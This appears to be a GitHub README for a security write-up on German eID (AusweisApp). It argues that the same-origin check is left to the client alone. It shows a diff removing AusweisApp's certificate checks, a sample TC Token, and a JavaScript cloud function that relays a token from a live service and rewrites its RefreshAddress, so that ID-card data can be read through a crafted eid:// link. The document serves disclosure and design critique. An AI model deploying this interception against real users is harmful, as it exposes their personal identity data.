


# eID Server Mock
Basic SOAP server that mocks the functionality of an actual eID Server.

## How Does This Work?
In the case of Estonian eID, the method of using it on the web is called Web eID. The client requests a challenge nonce from the server and returns the result of the challenge with the certificate after entering the pin for the ID. If the nonce is valid, the server reads the user data from the certificate.

In German eID, there is also a “terminal authentication”, where the smart card checks if the terminal (web service and eID-Server of the service)  reading the card has the necessary certificate issued by the government.

The problem is, that validating that the subject of the certificate and the web service triggering the eID process have the same URL is the eID-Client app’s (e.g. AusweisApp) responsibility, as only the eID-Client can know what triggered it, so the smart card and the eID-Server has no way of knowing if such check was made by the Client. Certificate checks can be disabled by deleting the lines shown in the following diff.

```diff
❯ git --no-pager diff
diff --git a/src/workflows/base/states/StateCertificateDescriptionCheck.cpp b/src/workflows/base/states/StateCertificateDescriptionCheck.cpp
index 7ac32e05..2f97436e 100644
--- a/src/workflows/base/states/StateCertificateDescriptionCheck.cpp
+++ b/src/workflows/base/states/StateCertificateDescriptionCheck.cpp
@@ -70,27 +70,7 @@ void StateCertificateDescriptionCheck::run()
        qDebug() << "Subject URL from AT CVC (eService certificate) description:" << subjectUrlString;
        qDebug() << "TCToken URL:" << tcTockenUrl;
 
-       if (UrlUtil::isMatchingSameOriginPolicy(QUrl(subjectUrlString), tcTockenUrl))
-       {
-               qDebug() << "SOP-Check succeeded.";
-       }
-       else
-       {
-               qDebug() << "SOP-Check failed.";
-
-               auto sameOriginPolicyError = QStringLiteral("The subject URL in the certificate description and the TCToken URL do not satisfy the same origin policy.");
-               if (Env::getSingleton<AppSettings>()->getGeneralSettings().isDeveloperMode())
-               {
-                       qCCritical(developermode) << sameOriginPolicyError;
-               }
-               else
-               {
-                       qCritical() << sameOriginPolicyError;
-                       updateStatus(GlobalStatus::Code::Workflow_Certificate_Sop_Error);
-                       Q_EMIT fireAbort(FailureCode::Reason::Certificate_Check_Failed_Same_Origin_Policy_Violation);
-                       return;
-               }
-       }
+       qDebug() << "SOP-Check succeeded.";
 
        Q_EMIT fireContinue();
 }
diff --git a/src/workflows/base/states/StateCheckCertificates.cpp b/src/workflows/base/states/StateCheckCertificates.cpp
index 316048d0..4072765c 100644
--- a/src/workflows/base/states/StateCheckCertificates.cpp
+++ b/src/workflows/base/states/StateCheckCertificates.cpp
@@ -21,30 +21,5 @@ StateCheckCertificates::StateCheckCertificates(const QSharedPointer<WorkflowCont
 
 void StateCheckCertificates::run()
 {
-       const auto& commCertificates = getContext()->getDidAuthenticateEac1()->getCertificateDescription()->getCommCertificates();
-       const auto& hashAlgorithm = getContext()->getDvCvc()->getBody().getHashAlgorithm();
-
-       // check the certificates we've encountered so far
-       const auto& certList = getContext()->getCertificateList();
-       for (const auto& certificate : certList)
-       {
-               if (!TlsChecker::checkCertificate(certificate, hashAlgorithm, commCertificates))
-               {
-                       auto certificateDescError = QStringLiteral("Hash of certificate not in certificate description");
-                       if (Env::getSingleton<AppSettings>()->getGeneralSettings().isDeveloperMode())
-                       {
-                               qCCritical(developermode) << certificateDescError;
-                       }
-                       else
-                       {
-                               qCritical() << certificateDescError;
-                               const auto& issuerName = TlsChecker::getCertificateIssuerName(certificate);
-                               updateStatus({GlobalStatus::Code::Workflow_TrustedChannel_Hash_Not_In_Description, {GlobalStatus::ExternalInformation::CERTIFICATE_ISSUER_NAME, issuerName}
-                                               });
-                               Q_EMIT fireAbort(FailureCode::Reason::Certificate_Check_Failed_Hash_Missing_In_Description);
-                               return;
-                       }
-               }
-       }
        Q_EMIT fireContinue();
 }
```

Way to trigger the eID-Client is clicking a link such as  “eid://127.0.0.1:24727/eID-Client?tcTokenURL=https://www.autentapp.de/AusweisAuskunft/WebServiceRequesterServlet” which opens the eID-Client and the Client will request the tcToken from the specified tcTokenURL path parameter. TC Token is an XML that looks like this:

```xml
<TCTokenType>
	<ServerAddress>https://prodpaos.governikus-eid.de:443/ecardpaos/paosreceiver</ServerAddress>
	<SessionIdentifier>7506f0ad-2a3c-4829-bf78-64d712394fe2</SessionIdentifier>
	<RefreshAddress>https://www.autentapp.de/AusweisAuskunft/WebServiceReceiverServlet?refID=6613a9c8-a086-4924-8cce-24ca8a7cce9a</RefreshAddress>
	<Binding>urn:liberty:paos:2006-08</Binding>
	<PathSecurity-Protocol>urn:ietf:rfc:4279</PathSecurity-Protocol>
	<PathSecurity-Parameter>
		<PSK>773B9614E21A6158CC6E9DBCA31A2CA9E21261ACB7BFFBE3D93284CD38337200445BD0240B587E6B7233AFBC975F2C2EB513E74124DF160EF1EAA7C7E085B411</PSK>
	</PathSecurity-Parameter>
</TCTokenType>
```

It specifies where the eID-Server is (ServerAddress), starts a session (SessionIdentifier), and shows which URL to load after the process is successful (RefreshAddress). The TC Token above belongs to Ausweisapp’s “See my data” functionality, so the RefreshAddress is the address, where Ausweisapp will call to get the user’s data that the server has read. Normally this is the URL a user would go to get their authentication token such as a JWT if the authentication is successful, so the following man-in-the-middle wouldn’t work for such APIs. RefreshAddress is only valid for the first request made to it.

Since the modified client doesn’t check if the TC Token’s address is the same as the address on the provided certificate, I can write an HTTP server that requests a token from autentapp, saves the refresh address, and changes it with an invalid address before sending it to the client.

```js
const functions = require('@google-cloud/functions-framework');

functions.http('getToken', async(req, res) => {
  var token = await (await fetch('https://www.autentapp.de/AusweisAuskunft/WebServiceRequesterServlet')).text()
  console.log(token.split("RefreshAddress>")[1].split("</RefreshAddres")[0])
  token = token.replaceAll("https://www.autentapp.de/AusweisAuskunft/WebServiceReceiverServlet", "https://fakeadress.com/")
  res.set('Content-Type', 'text/xml');
  res.send(Buffer.from(token))
  console.log("token sent")
});

```

On my website, I can create a link with the eid:// protocol, and for the TC Token URL I can give that HTTP server’s URL, such as  eid://127.0.0.1:24727/eID-Client?tcTokenURL=***https://us-central1-resolute-radar-421713.cloudfunctions.net/function-1***



Which triggers eID-Client, the client communicates with eID-Server, the Server goes through the terminal authentication with the smart card using its government-issued certificate, and after the data is transferred the Client goes to an invalid Refresh Address, and I can access the data.



Other service providers that offer users the functionality to see the data inside their ID-Card is probably vulnerable in the same way.

This method renders issuance of a government terminal certificate in case of an "On-Site Card Reading” useless, since a customer can’t check if the service provider is using an eID-Client that checks the certificates subject.

In the case of authenticating as a user on the web, users wouldn’t be vulnerable if they are using approved eID-Clients. But this shifts the responsibility to the user. In the Estonian example, a user shouldn’t use Web-ID on a website they don’t trust. In German example, they shouldn’t download an eID-Client they don’t trust. The difference is not that great, but the trade-off is much more bureaucracy and  higher development / IT-infrastructure costs for the government and service providers.